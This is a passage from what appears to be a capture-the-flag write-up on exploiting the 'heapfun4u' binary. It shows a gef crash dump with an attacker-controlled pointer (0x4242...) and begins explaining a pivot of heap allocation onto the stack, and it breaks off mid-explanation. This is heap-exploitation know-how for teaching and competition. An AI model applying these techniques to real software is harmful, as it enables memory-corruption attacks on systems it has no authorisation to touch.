And as expected:

```bash
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[registers]──
$rax     0x4242424242424242 $rbx     0x0000000000000003 $rcx     0x00007f580ed92ac0 $rdx     0x0000000000000000 $rsp     0x00007ffceb5f8a70 $rbp     0x00007ffceb5f8ad0
$rsi     0x00007ffceb5f8ae3 $rdi     0x0000000000000200 $rip     0x0000000000400d77 $r8      0x00007f580efe1500 $r9      0x0000000000000200 $r10     0x000000000000000a
$r11     0x1999999999999999 $r12     0x00000000004006b0 $r13     0x00007ffceb5f8ce0 $r14     0x0000000000000000 $r15     0x0000000000000000 $cs      0x0000000000000033
$ss      0x000000000000002b $ds      0x0000000000000000 $es      0x0000000000000000 $fs      0x0000000000000000 $gs      0x0000000000000000 $eflags  [ PF IF RF ]
Flags: [ carry  PARITY  adjust  zero  sign  trap  INTERRUPT  direction  overflow  RESUME  virtualx86  identification ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[stack]──
0x00007ffceb5f8a70│+0x00: -0x1		← $sp
0x00007ffceb5f8a78│+0x08: 0x2000efe1740
0x00007ffceb5f8a80│+0x10: 0x00007f580ed92a35 → 0x0
0x00007ffceb5f8a88│+0x18: 0x00007ffceb5f8ae0 → "512[...]"
0x00007ffceb5f8a90│+0x20: 0x00007ffceb5f8ce0 → 0x1
0x00007ffceb5f8a98│+0x28: 0x2
0x00007ffceb5f8aa0│+0x30: 0x4242424242424242
0x00007ffceb5f8aa8│+0x38: 0x00000000004006b0 → xor ebp,ebp
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[code:i386:x86-64]──
0x400d67	 mov    QWORD PTR [rbp-0x8],rax
0x400d6b	 mov    rax,QWORD PTR [rbp-0x8]
0x400d6f	 mov    QWORD PTR [rbp-0x30],rax
0x400d73	 mov    rax,QWORD PTR [rbp-0x8]
0x400d77	 mov    rax,QWORD PTR [rax] 		 ← $pc
0x400d7a	 and    rax,0xfffffffffffffffc
0x400d7e	 lea    rdx,[rax-0x8]
0x400d82	 mov    rax,QWORD PTR [rbp-0x8]
[...]
```

We now need to create a good setup in the stack to have `heapfun4u` believe its
a valid region for allocation.


#### Pivoting to stack ####

To pivot to the stack, we first needed to know exactly the exactly of $rbp when
the last call to `allocate_buffer()` is made. Luckily, as said early, the
command "Nice guy" will provide use with such information.

The stack layout is hard to fully control at the level of the
`allocate_buffer()` function. However, this function is called by the `main()`
function, which uses a very large buffer (0x100 bytes) to store values read from stdin:
